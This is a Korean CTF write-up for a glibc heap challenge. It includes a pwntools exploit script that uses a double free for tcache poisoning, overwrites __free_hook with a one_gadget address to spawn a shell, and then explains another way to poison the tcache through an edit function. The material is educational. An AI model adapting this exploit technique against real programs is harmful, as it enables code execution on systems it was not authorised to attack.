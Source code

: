 ```py
free_hook = libc_base + libc.symbols['__free_hook']

# og = libc_base + 0x4f3ce
# og = libc_base + 0x4f3d5
og = libc_base + 0x4f432
# og = libc_base + 0x10a41c


# 여기서 tcache[0x40] 을 다시 쓰면 _IO_2_1_stdout_을 가져오는데 이 주소의 값을 바꾸면 안되므로 다른 tcache 엔트리르 써야함

# tcache[0x50] : empty
# chunk : first(1)
allocate(0x40, b'first')


# tcahce[0x50] : first(1)
free()


# tcache[0x50] : first(1) -> aaaaaaaa
edit(b'a'*0x8 + b'a')


# tcache[0x50] : first(2) -> first(1) + 0x10
free()


# tcache[0x50] : first(1) + 0x10 -> free_hook
# chunk : first(2)
allocate(0x40, p64(free_hook))


# tcache[0x50] : free_hook
# chunk : first(1)
allocate(0x40, b'a')


# tcache[0x50] : empty
# chunk : free_hook
allocate(0x40, p64(og))  # free_hook이 저장된 주소에 og가 저장되어 free_hook -> og를 가리키게 됨


# Exploit
free()
p.interactive()
```

<br>

## 다른 방법 : **Double Free** 없이 **tcache**에 청크를 추가하는 방법 : **ex1.py**

처음에 위의 방식대로 `ex.py`로 `Double Free`를 통한 `tcache poisoning`을 하였는데, `tcache_dup2` 문제를 풀면서 생각해보니,

**`Double Free`를 해주지 않고도 `edit` 함수가 있으면 원하는 주소의 청크를 추가할 수 있다는 것을 알게 되었다.**

따라서, `청크 할당 -> 청크 해제 -> 청크 수정(추가하고 싶은 주소)`를 해주면 `Double Free`를 해주지 않아도 `stdout`이나 `free_hook`처럼 원하는 청크를 `tcache`에 추가할 수 있다.

이후 방법은 똑같이, 추가한 청크를 `allocate`로 뺀 후에 출력해서 값을 얻거나(`_IO_2_1_stdout_`), 해당 주소에 값을 조작(`og`)하면 된다.

하지만 이건 `tc_idx`가 도입되지 않은 버전이라서 가능한 것이기 때문에, 항상 `tc_idx` 검사가 있다고 생각하고 `Double Free`를 통해 `tc_idx`를 `1` 이상으로 만들어줘야 한다.\
(`Double Free`에서도 이번 문제에서는 `edit` 순서를 신경써주지 않아서 `tc_idx`가 `0`이 되었지만 실제로는 `edit`을 먼저 해서 `tc_idx >= 1`을 유지해야한다.)